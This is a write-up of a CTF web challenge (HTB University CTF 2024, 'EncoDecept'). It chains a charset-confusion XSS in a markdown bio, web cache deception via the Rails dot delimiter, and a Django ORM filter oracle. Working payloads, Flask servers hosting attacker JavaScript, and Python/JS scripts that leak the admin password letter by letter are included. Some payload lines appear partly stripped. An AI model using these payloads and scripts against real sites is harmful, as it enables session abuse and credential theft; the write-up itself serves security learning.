EncoDecept [EN] | HTB University CTF 2024
Introduction
This challenge is one of the 4 challenges in the WEB category published at the University CTF 2024. It is rated medium despite having the lowest resolution in the category. It is therefore considered the hardest web challenge of this edition.
Description
The Frontier Board’s iron grip on the galaxy rests on one secret: the location of the legendary Starry Spur, hidden deep within their Intergalactic Contract System (ICMS. With rebellion brewing, Jack Colt is humanity’s last hope. Tasked by the resistance, he must breach the impenetrable system, outwit its defenses, and retrieve the contract that could ignite a revolution. The galaxy’s freedom hangs by a thread—can Jack rise to the challenge?
Files & Setup
A docker with all the files is supplied and available here: download
The challenge is easily deployed with the build-docker.sh file.
Note that we’ve added the option -v $(pwd):/home/poc in the second command for the end of the challenge.
docker build . -t web_encodecept
docker run -it -v $(pwd):/home/poc -p 1337:1337 -p 8000:8080 web_encodecept
First analysis & overview
The docker image is as follows: ruby:3.4-rc-alpine3.20, python3 is also installed and a supervisord is launched.
This launches three services:
- a Nginx server
- a Django server on port 8000
- a Rails server on port 3000
Here’s the Nginx configuration (cropped):
..[SNIPPED]..
http {
..[SNIPPED]..
server {
listen 1337;
server_name _;
location ~ \.(css|js|jpg|jpeg|png|gif|ico|woff|woff2|ttf|svg|eot|html|json)$ {
proxy_cache my_cache;
proxy_cache_key "$uri$is_args$args";
proxy_cache_valid 200 5m;
proxy_cache_valid 404 1m;
proxy_pass http://127.0.0.1:3000;
proxy_set_header Host $http_host; # Pass original host and port
proxy_set_header X-Forwarded-Proto $scheme;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_http_version 1.1;
add_header X-Cache-Status $upstream_cache_status;
}
location / {
proxy_pass http://127.0.0.1:3000;
proxy_set_header Host $http_host; # Pass original host and port
proxy_set_header X-Forwarded-Proto $scheme;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_http_version 1.1;
add_header X-Cache-Status $upstream_cache_status;
}
}
}
The Nginx server acts as a reverse proxy with a cache system on port 1337, which is the port exposed in the Dockerfile. We can therefore only make requests to the Ruby server (port 3000) via the Nginx server.
We can then go to http://localhost:1337/login and access the first login page.
Once an account has been created, the following page is displayed:

Here are the various options available to us:
- /contracts
- /settings
- /report
Before continuing our exploration, let’s continue looking at all the files to get a better overview
The frontend code in Ruby is fairly easy to understand, the two main folders are:
- ./contract_frontend/app/controllers
- ./contract_frontend/app/views (This is where all server logic is implemented. )
On the backend, an API is registered on /api with all these routes:
- register/
- login/
- contract/
- all/
- contracts/filter
- contracts/int:id/
- me/
- submit_report/
- contracts/
- contract_templates/
- contract_templates/int:template_id/
The ./interstellarAPI/contracts/views.py file contains all the logic for these routes, as well as the permissions needed to reach them.
Three types of account exist on the application:
administratorcontract_managerguest
By default, the accounts created are guest.
In the ./interstellarAPI/contracts/management/commands/reset_and_seed.py file, two accounts are created with random and secure passwords:
contract_manageradministratorIn addition,contractsare created in both their names.
The administrator privilege allows access to additional routes:
- contract_templates/
- contract_templates/int:template_id/
The contract_manager can access:
- all/
- contracts/filter
The path to complete resolution of the challenge is as follows: start with a (guest) user account, raise its privileges to contract_manager and then become administrator. Finally, a command execution is required to read the flag, which is located at the root of the server (ie /flag.txt).
Analysis of the frontend and various user routes.
Rails debug mode is enabled, so it’s easy to list all routes by going to a non-existent path: http://localhost:1337/vozec

The Ruby server interfaces with the django api. For each request, it performs a backend action via the locally exposed api.
For example, the (ruby) connection controller is as follows:
class SessionsController < ApplicationController
def new
end
def create
response = HTTP.post("http://localhost:8080/api/login/", json: { username: params[:username], password: params[:password] })
if response.status.success?
session[:token] = response.parse['token']
redirect_to contracts_path, notice: 'Logged in successfully'
else
flash.now[:alert] = 'Invalid credentials'
render :new, status: :unprocessable_entity
end
end
def destroy
session[:token] = nil
redirect_to root_path, notice: 'Logged out successfully'
end
end
No vulnerabilities have been discovered in account creation and connection, so we’ll concentrate on the other routes.
It is possible to create, view and report a contract to the administrator. If you’re familiar with CTFs, you’ll be able to see a path of exploitation: we need to find an XSS vulnerability to steal the session of the person who’s going to view our contract.
If you look at the file ./web_encoDecept/interstellarAPI/contracts/util.py, you’ll notice that the account that will be watching our contract is contract_manager. A malicious contract could therefore be used to recover this account!
First vulnerability
Unfortunately, the contract code is clean and doesn’t allow us to inject HTML tags or javascript code directly into the page. This blocks our first compromise scenario, but let’s not lose hope.
On the /settings page, a feature intrigues us: it’s possible to write and render a bio in markdown.
For those unfamiliar with markdown, it’s a textual language that allows text to be formatted via a rendering process.
The code responsible for this rendering is in the file:
- ./contract_frontend/app/helpers/application_helper.rb
# app/helpers/application_helper.rb
module ApplicationHelper
def render_markdown(text)
return '' if text.nil? # Return an empty string if text is nil
# Configure Redcarpet to render Markdown with links and images enabled
renderer = Redcarpet::Render::HTML.new(filter_html: true)
markdown = Redcarpet::Markdown.new(renderer, {
no_intra_emphasis: true,
autolink: true,
tables: true,
fenced_code_blocks: true,
disable_indented_code_blocks: true,
strikethrough: true,
superscript: true
})
# Render Markdown to HTML
markdown.render(text).html_safe
end
end
The library used is redcarpet in its latest version (cf: Gemfile).
Two behaviors are often abused to perform XSS on markdown renderers:
<a>tags<img>tags
Here are two examples of how to use these tags:
[hello](there)-><a href="there">hello</a>-><img src="there" alt="hello">
The first possible XSS is: [hello](javascript:alert(1))
The generated code will be: <a href="javascript:alert(1)">hello</a> , the javascript code will be executed when you click on hello.

The second behavior can also be abused to form this kind of payload:
)//)-><img src=""/onerror=alert(1)//" alt="hello">
Unfortunately for us, the library is programmed to prevent this kind of injection.
One important thing is hidden in the ./contract_frontend/lib/remove_charset_middleware.rb file:
# lib/remove_charset_middleware.rb
class RemoveCharsetMiddleware
def initialize(app)
@app = app
end
def call(env)
status, headers, response = @app.call(env)
headers["Content-Type"] = headers["Content-Type"].sub(/; charset=.*$/, '') if headers["Content-Type"]
[status, headers, response]
end
end
There is a middleware that removes the charset from all pages:

The absence of charset has often been used to carry out XSS attacks, with UTF-7 in the past for example.
A few months ago, SonarSource research demonstrated that it was possible to exploit this misconfiguration to trick the browser.
Indeed, in the absence of an explicitly described charset, browsers will try to guess the encoding used.
As described in Stefan Schiller’s article , certain characters such as \x1b$@ can be used to switch the browser to the JIS X 0208 1978 encoding.
All swap characters are described here: 
This behavior currently only works on google chrome.
Here is a code that allowed us to test it:
from flask import Flask, Response
app = Flask(__name__)
@app.route('/', methods=["GET", "OPTIONS"])
def poc():
xss = """
<html>
<body>
<img src="0.png" alt="\x1b$@">
<p>AM I READABLE ? NO</p>
\x1b(B
<p>AM I READABLE ? YES</p>
<body>
</html>
""".strip()ss
r = Response(xss)
r.headers["Content-Type"] = 'text/html'
return r
if __name__ == "__main__":
app.run(host="127.0.0.1", port=3333, debug=True)

As you can see, the x1b character has changed the encoding chosen by the page.
By using the x1bCB character, it is possible to return to the ascii encoding:
<html>
<body>
<img src="0.png" alt="\x1b$@">
<p>AM I READABLE ? NO</p>
\x1b(B
<p>AM I READABLE ? YES</p>
<body>
</html>

This behavior can be abused to change the " character. By placing \x1b$@ and \x1b(B around a ", it will be interpreted as JIS X 0208 1978.
In the case of an XSS, this gives:
<html>
<body>
<img src="0.png" alt="\x1b$@"> \x1b(B <img src="1.png">
<body>
</html>

As the “ is misinterpreted, the second <img> tag ends up (up to the next ”) in the alt parameter of the first tag.
This confusion allows arbitrary arguments to be injected into the second <img> tag!
<html>
<body>
<img src="0.png" alt="\x1b$@"> \x1b(B <img src=" onerror=alert(1)//">
<body>
</html>

Finally, this behavior can be translated into markdown in order to XSS our application:
 \x1b(B //)
When encoded, it looks like this: !%5B%1B$@%5D(0.png)%20%1B(B%20!%5Bpoc%5D(%20onerror=alert(1)//).
With Burpsuite we send this bio and XSS works ! Charset Rocks ^^ 
Finally, we used this final payload to run javascript code from home without having to edit the description each time:
 \x1b(B //)
With associated flask code:
from flask import Flask, Response
app = Flask(__name__)
@app.route('/js', methods=["GET", "OPTIONS"])
def js():
xss = """
alert(2)
""".strip()
r = Response(xss)
r.headers["Content-Type"] = 'text/javascript'
r.headers["Access-Control-Allow-Origin"] = '*'
r.headers["Access-Control-Allow-Headers"] = '*'
r.headers["Access-Control-Allow-Methods"] = 'GET,POST,OPTIONS,DELETE,PUT'
return r
if __name__ == "__main__":
app.run(host="0.0.0.0", port=3333, debug=True)
(CORS must be wildcard (*) otherwise the page won’t be able to import them.)

A question arises, How do you send this XSS to the bot? It’s only present on my page and is specific to my profile.
Second vulnerability
Something surprising is the use of a reverse proxy in a CTF. Why not use the Rails server directly on the front end? Also, why use a caching service??? This is rather surprising for a service that will be used by only a few players.
In a more realistic context, caching is often a great way of increasing the exploitability of an XSS.
Here, we’re going to attempt to cache our /settings page with the XSS so that the bot can access it.
Cache operation is fairly straightforward:
When accessing a resource for the first time, the reverse proxy forwards the request to a server, calculates a key based on various parameters (path, GET parameter, anchor, …) and saves the result, associating it with this cachekey
When a second person requests the same resource, the cache calculates a new key and compares it with those already saved. If it recognizes it, it returns the resource and avoids an unnecessary call to the server (in this case, Rails).
The cache is often used for constant resources such as static files: css, svg, js etc…
Here’s the cache configuration:
location ~ \.(css|js|jpg|jpeg|png|gif|ico|woff|woff2|ttf|svg|eot|html|json)$ {
proxy_cache my_cache;
proxy_cache_key "$uri$is_args$args";
proxy_cache_valid 200 5m;
proxy_cache_valid 404 1m;
proxy_pass http://127.0.0.1:3000;
proxy_set_header Host $http_host; # Pass original host and port
proxy_set_header X-Forwarded-Proto $scheme;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_http_version 1.1;
add_header X-Cache-Status $upstream_cache_status;
}
Anything ending with one of the following extensions is saved by the cache:
css, js, jpg, jpeg, png, gif, ico, woff, woff2, ttf, svg, eot, html, json
This behavior can be confirmed with a a css file and the X-Cache-Status header.
GET /assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css HTTP/1.1
Host: localhost:1337
On first access, the response is cached. The header value is MISS.

The second time: HIT.

TL;DR:
We’re looking for a parsing differential between nginx and rails so that nginx thinks we’re requesting a static file while rails sees the /settings path.
PortSwigger to the rescue
In 2024, Martin Doyhenard, a researcher at portswigger, took a more general look at this topic, searching for parsing differences between WaFs (Web Application Firewalls), servers and proxy reverses. His talk at DEFCON was excellent, and his slides can be found here. Finally, there’s also an article on the porswigger blog.
We’ve spent a long time looking for separators that are only interpreted by one of the two servers. (Like ; on java)
Finally, Martin Doyhenard gives us the solution at 11.47min of his talk:

The . is a valid Rails delimiter!
You can do a quick test with burpsuite:

/settings.vozecis interpreted as/settings.
So we can cache our /settings page with an extension that returns text rather than an image !
Finally, we’ve also added a cachebuster parameter, so that we can run several tests without ever caching the main /settings page.
This allows us to test several payloads with /settings?test=1, /settings?test=2, …

The page can now be accessed with my malicious bio in an unauthenticated way!

Third vulnerability
On closer inspection, the session is stored in an HttpOnly (_contract_frontend_session) cookie, which prevents javascript code from retrieving it.

It is therefore impossible to take full control of the contract_manager account.
However, it is possible to perform javascript actions on the new functionalities obtained and return the result.
This scenario is possible because the actions are performed on the site where we have javascript execution. So there are no CORS or SOP problems, and the actions are performed in the name of the victim.
To simplify the search, we’ll change the contract_manager password to local to continue our search.
A new feature allows you to search and filter all contracts.

GET /contracts/manage?title__contains=foo&status=&start_date=&end_date= HTTP/1.1
Host: localhost:1337
def manage
filtered_params = filter_params
response = if filtered_params.empty?
HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contracts/filter/", json: { all: true })
else
HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contracts/filter/", json: filtered_params)
end
if response.status.success?
@contracts = response.parse
else
@contracts = []
flash[:alert] = "Failed to load contracts. Please try again."
end
end
All our GET parameters are passed to the django api via the /api/contracts/filter/ endpoint.
This is the only new feature on this account, so we’re looking for a vulnerability on this route.
Here’s the route code in the ./interstellarAPI/contracts/views.py file:
class FilteredContractsView(APIView):
permission_classes = [IsAuthenticated, IsContractManagerOrAdmin]
def post(self, request, format=None):
try:
if request.data.get("all") == True:
contracts = Contract.objects.all()
else:
filtered_data = {key: value for key, value in request.data.items() if key != "all"}
contracts = Contract.objects.filter(**filtered_data)
serializer = ContractSerializer(contracts, many=True)
except Exception as e:
return Response({"error": str(e)}, status=status.HTTP_400_BAD_REQUEST)
return Response(serializer.data, status=status.HTTP_200_OK)
The following line of code is very interesting, as it passes all our arguments to the ORM filter function.
contracts = Contract.objects.filter(**filtered_data)
This article demonstrates a vulnerability in this particular behavior. The filter method allows you to follow the symbolic links between the various models in the application, so you can filter the search by conditions on the attributes of the linked models and not the original model.
Here’s the model contract:
class Contract(models.Model):
class Status(models.TextChoices):
DRAFT = 'draft', 'Draft'
PENDING_REVIEW = 'pending_review', 'Pending Review'
APPROVED = 'approved', 'Approved'
ACTIVE = 'active', 'Active'
COMPLETED = 'completed', 'Completed'
CANCELLED = 'cancelled', 'Cancelled'
title = models.CharField(max_length=200, help_text="Title of the contract")
description = models.TextField(help_text="Detailed description of the contract")
start_date = models.DateField(help_text="Start date of the contract")
end_date = models.DateField(help_text="End date of the contract", null=True, blank=True)
status = models.CharField(
max_length=20,
choices=Status.choices,
default=Status.DRAFT,
help_text="Current status of the contract"
)
created_at = models.DateTimeField(auto_now_add=True)
updated_at = models.DateTimeField(auto_now=True)
owner = models.ForeignKey(
settings.AUTH_USER_MODEL,
on_delete=models.CASCADE,
related_name='contracts',
help_text="User who owns the contract"
)
terms = models.TextField(help_text="Terms and conditions of the contract")
amount = models.DecimalField(max_digits=10, decimal_places=2, help_text="Total contract amount")
attachments = models.FileField(upload_to='contracts/attachments/', null=True, blank=True, help_text="Any associated documents or files")
def __str__(self):
return f"{self.title} ({self.get_status_display()})"
As you can see, Contract refers to settings.AUTH_USER_MODEL via the owner parameter. This makes it possible to perform a search filter on the attributes of owner.
For example, the following filter only displays contracts where the contract creator starts with randomusername.
- /contracts/manage?owner__username__startswith=randomusername
Obviously, no contract was found:
No contracts found based on the current filter.
However, it is possible to filter on the password and count the number of contracts returned.
Start by selecting the victim user: owner__username__startswith=admin.
Finally, we test the beginning of the password letter by letter and count the number of contracts found.
owner__password__startswith=aowner__password__startswith=bowner__password__startswith=c- …
This oracle allows us to retrieve the password of any user!
All that’s missing is some python code to test the vulnerability:
import requests
import re
import string
url = 'http://localhost:1337'
def leak_admin_password(token):
s = requests.session()
s.cookies.update({'_contract_frontend_session': token})
def filter(filters):
r = s.get(f'{url}/contracts/manage',params=filters)
assert r.status_code == 200
cnt = re.findall(r'<a href="/contracts/(.*)"', r.text)
return len(cnt)
known = ''
while 1:
before = known
for guess in string.ascii_lowercase:
x = filter(filters={
"owner__password__startswith": f"{known}{guess}",
"owner__username__startswith": f"admin"
})
if x > 2:
known += guess
print(known)
break
if before == known:
break
return known
admin_password = leak_admin_password(token="2b794bccd12cf636bb1f7faba8c19922")
print(admin_password)
(The token provided is a session token for contract_manager)
Output:
~/Desktop/tmp/HTB/web_encoDecept » python3 solve1.py vozec@Vozec-tower
l
lt
ltp
ltpu
ltpuc
ltpuce
ltpucep
ltpucepu
ltpucepuv
ltpucepuvy
ltpucepuvyv
ltpucepuvyvv
ltpucepuvyvvg
ltpucepuvyvvga
ltpucepuvyvvgae
ltpucepuvyvvgaem
ltpucepuvyvvgaemi
ltpucepuvyvvgaemit
ltpucepuvyvvgaemitg
ltpucepuvyvvgaemitgm
ltpucepuvyvvgaemitgme
ltpucepuvyvvgaemitgmeu
ltpucepuvyvvgaemitgmeuz
ltpucepuvyvvgaemitgmeuzr
ltpucepuvyvvgaemitgmeuzrs
ltpucepuvyvvgaemitgmeuzrst
ltpucepuvyvvgaemitgmeuzrstj
ltpucepuvyvvgaemitgmeuzrstjn
ltpucepuvyvvgaemitgmeuzrstjnp
ltpucepuvyvvgaemitgmeuzrstjnpr
ltpucepuvyvvgaemitgmeuzrstjnpre
ltpucepuvyvvgaemitgmeuzrstjnprex
It works! Now we need to redo it in js so we can chain it with the XSS from the first step.
const url = 'http://127.0.0.1:1337';
async function leakAdminPassword(){
async function filter(filters) {
try {
const queryParams = new URLSearchParams(filters).toString();
const response = await fetch(`${url}/contracts/manage?${queryParams}`,{credentials: 'include'});
if (response.ok) {
const text = await response.text();
const matches = text.match(/<a href=\"\/contracts\/(.*?)\"/g) || [];
return matches.length;
} else {
throw new Error(`Unexpected status code: ${response.status}`);
}
} catch (error) {
console.error('Error during filter request:', error);
return 0;
}
}
let known = '';
const alphabet = 'abcdefghijklmnopqrstuvwxyz';
while (true) {
const before = known;
for (const guess of alphabet) {
const filters = {
"owner__password__startswith": `${known}${guess}`,
"owner__username__startswith": "admin"
};
const count = await filter(filters);
if (count > 2) {
known += guess;
console.log(known);
break;
}
}
if (before === known) {
break;
}
}
return known;
}
(async () => {
console.log('Leaking admin password');
const password = await leakAdminPassword();
console.log('Admin password:', password);
})();
